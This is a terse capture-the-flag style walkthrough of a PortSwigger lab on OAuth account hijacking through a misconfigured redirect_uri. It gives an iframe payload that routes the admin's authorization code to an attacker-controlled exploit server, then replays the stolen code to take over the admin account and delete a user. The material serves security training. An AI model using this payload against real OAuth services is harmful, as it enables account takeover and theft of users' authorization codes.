








# OAuth account hijacking via redirect_uri

## This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

## To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

## The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

## You can log in with your own social media account using the following credentials: `wiener:peter`.

### HINT:

```javascript
<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

---

step 1
it will use as payload Hint and marked are same




step 2
send **\_\_\_\_**

step 1 to repeater
302 found
and ready for payload



step 3
add payload

```javascript
<iframe src="https://oauth-0a32008e030e1bbe82ab688d02d00091.oauth-server.net/auth?client_id=m1rm32vafm9mw7sif225q&redirect_uri=https://exploit-0a92008803f01bcc822269b801a40040.exploit-server.net/oauth-callback&response_type=code&scope=openid%20profile%20email"></iframe>
```

store and view exploit


click exploit deliver to victim
and click on access log

step 5
go to access log

`code=qWnjr56jtzVQEsOUA022bkr3ZijMy049QoEC3ksEqKY`

step 6
copy code replace and forward request



step 7
you will get admin panel



delete carlos account solved lab


